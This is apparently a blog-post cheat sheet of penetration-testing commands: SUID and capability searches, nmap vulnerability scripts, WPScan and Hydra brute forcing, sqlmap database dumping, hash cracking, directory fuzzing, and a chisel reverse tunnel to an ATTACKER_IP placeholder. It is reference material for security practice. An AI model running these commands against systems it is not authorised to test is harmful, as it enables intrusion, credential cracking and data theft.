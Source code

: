 ```yaml
---
layaout: post
title: Pentesting Tools
date: 13-01-2025
categories: [Pentesting Tools]
tag: [cheat sheet, tools]
---
```

# Common Pentesting Tools and Commands

This document provides an overview of essential tools and commands used in penetration testing. Each tool is briefly explained along with typical commands for common scenarios. It is important to note that each tool has many more commands and ways to be used, depending on the situation and the approach you want to take.

---

## Privilege Escalation Commands

### `find`
- **Purpose**: Search for files with specific permissions or names.
- **Commands**:
  ```bash
  find / -perm -4000 2>/dev/null
  find / -type f -name "flag*.txt" 2>/dev/null
  ```

### Escalating Privileges with Capabilities
- **Purpose**: Use Linux capabilities to escalate privileges (if permitted).
- **Command**:
  ```bash
  getcap -r / 2>/dev/null
  ```

---

## Scanning for Vulnerabilities

### Nmap
- **Purpose**: Discover open ports, services, and vulnerabilities.
- **Commands**:
  ```bash
  nmap -sV --script=http-shellshock --script-args uri=/cgi-bin/test.cgi <IP>
  nmap --script=http-vuln* -p 80 <IP>
  nmap -p- --open -sS --min-rate 5000 -n -Pn <IP> -oG allPorts -vvv
  nmap -p<PORT> -sCV
  nmap --script smb-vuln-ms17-010 -p445 <IP>
  ```
  
---

## Web Application Testing Tools

### WPScan
- **Purpose**: Analyze WordPress sites for vulnerabilities.
- **Commands**:
  ```bash
  wpscan --url <URL> -e vp --api-token <API-TOKEN> # Finding Vulnerabilities
  wpscan --url <URL> --enumerate u #Finding users
  wpscan --url <URL> --passwords <PASSWORD_LIST> --usernames <USERNAME_LIST> # Bruteforce
  wpscan --url <URL> -U <USER> -P <DICTIONARY>
  wpscan --url <URL>/wordpress -e vt,vp --plugins-detection aggressive --api-token <API-TOKEN> 
  ```

### Joomla Scan
- **Purpose**: Analyze Joomla websites for vulnerabilities.
- **Command**:
  ```bash
  perl joomscan.pl -u <URL>
  ```

### Droopescan
- **Purpose**: Scan Drupal websites for vulnerabilities.
- **Tool Link**: [Droopescan GitHub](https://github.com/SamJoan/droopescan)

### WhatWeb
- **Purpose**: Identify technologies used by a website.
- **Command**:
  ```bash
  whatweb <URL>
  ```

---

## Network Analysis Tools

### SNMPWalk
- **Purpose**: Query network devices via SNMP.
- **Command**:
  ```bash
  snmpwalk -v2c -c public <IP>
  ```

### Dig
- **Purpose**: Perform DNS lookups and reverse DNS resolution.
- **Command**:
  ```bash
  dig @<IP> -x <IP>
  ```

---

## Exploit Development Tools

### SearchSploit
- **Purpose**: Search for publicly available exploits.
- **Command**:
  ```bash
  searchsploit <exploit_name>
  ```

### SQLMap
- **Purpose**: Automate SQL injection testing.
- **Commands**:
  ```bash
  sqlmap -r <request_file> --dbs
  sqlmap -r <request_file> --dump --tables <DB_NAME>
  sqlmap -r <request_file> -D <DB_NAME> -T <TABLE_NAME> --dump
  sqlmap -u <URL> --form --dbs --batch
  ```

---

## File and Data Extraction Tools

### Stegseek
- **Purpose**: Perform brute-force attacks on steganographic files.
- **Command**:
  ```bash
  stegseek -sf <file.jpg> <dictionary>
  ```

### Steghide
- **Purpose**: Extract hidden data from images or files.
- **Command**:
  ```bash
  steghide extract -sf <file.jpg>
  ```

### GPG
- **Purpose**: Decrypt files encrypted with PGP.
- **Commands**:
  ```bash
  gpg --import priv.key
  gpg --output <OUTPUT_FILE> --decrypt <INPUT_FILE.gpg>
  ```

---

## Brute Force Tools

### Hydra
- **Purpose**: Perform brute-force attacks on login forms.
- **Commands**:
  ```bash
  hydra -l <USER> -P <WORDLIST> <IP> http-post-form "/login.php:username=^USER^&password=^PASS^:incorrect" -t 64 -F
  ```

---

## Directory and Subdomain Enumeration Tools

### FFUF
- **Purpose**: Discover subdomains or hidden directories.
- **Command**:
  ```bash
  ffuf -u http://<URL>/ -w <WORDLIST> -H "Host: FUZZ.<URL>" -fw 522
  ```

### Gobuster
- **Purpose**: Enumerate subdomains and directories.
- **Commands**:
  ```bash
  gobuster vhost -u http://<URL> --append-domain -w <WORDLIST> -r
  ```

### Dirsearch
- **Purpose**: Identify hidden directories.
- **Command**:
  ```bash
  dirsearch -u <URL>
  ```

---

## Miscellaneous Tools

### Chisel
- **Purpose**: Perform port forwarding.
- **Commands**:
  ```bash
  chisel server -p 8000 --reverse
  chisel client <ATTACKER_IP>:8000 R:<LOCAL_PORT>:127.0.0.1:<REMOTE_PORT>
  ```

### Ltrace
- **Purpose**: Trace dynamic library calls made by a program.

### Feroxbuster
- **Purpose**: Perform recursive directory scans.
- **Command**:
  ```bash
  feroxbuster -u <URL> -w <WORDLIST> -d 0 -t 100
  ```

### Hashcat and HashID
- **Purpose**: Identify hash types and perform brute-force attacks on hashes.
- **Commands**:
  ```bash
  hashid <hash>
  hashcat -a 0 <hash> <WORDLIST>
  hashcat -a 3 <hash> 'custom_format' -m <MODE>
  ```